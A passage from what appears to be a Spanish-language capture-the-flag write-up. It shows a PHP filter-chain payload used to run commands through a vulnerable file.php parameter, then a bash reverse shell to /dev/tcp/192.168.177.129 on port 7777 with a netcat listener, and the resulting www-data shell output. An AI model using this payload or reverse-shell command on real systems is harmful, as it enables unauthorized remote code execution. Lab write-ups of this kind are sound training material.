 ```
t.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

Copiaremos todo a partir de `php://...` y la `URL` nos quedara algo como:

```
URL = http://<IP_VICTIM>/061400ca5d384de48f37a71ec23cc518/cc8e38c20e4e2f58291c0f8b2e3ace5f/dev/file.php?cmd=whoami&72e22dffd7fa10883a85aa3e0bbbd6d4=php://...
```

Info:

```
www-data
�
P�����
```

Vemos que esta funcionando, por lo que vamos a generarnos una `reverse shell` de esta forma.

```
URL = http://<IP_VICTIM>/061400ca5d384de48f37a71ec23cc518/cc8e38c20e4e2f58291c0f8b2e3ace5f/dev/file.php?cmd=bash%20-c%20"bash%20-i%20>%26%20/dev/tcp/192.168.177.129/7777 0>%261"&72e22dffd7fa10883a85aa3e0bbbd6d4=php://...
```

Antes de enviarlo nos pondremos a la escucha de esta forma:

```shell
nc -lvnp <PORT>
```

Ahora si lo enviamos con `BurpSuite` poniendole en la cabecera el `Statusid: 1` y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.177.129] from (UNKNOWN) [172.17.0.2] 53932
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
<a71ec23cc518/cc8e38c20e4e2f58291c0f8b2e3ace5f/dev$ whoami
whoami
www-data
```
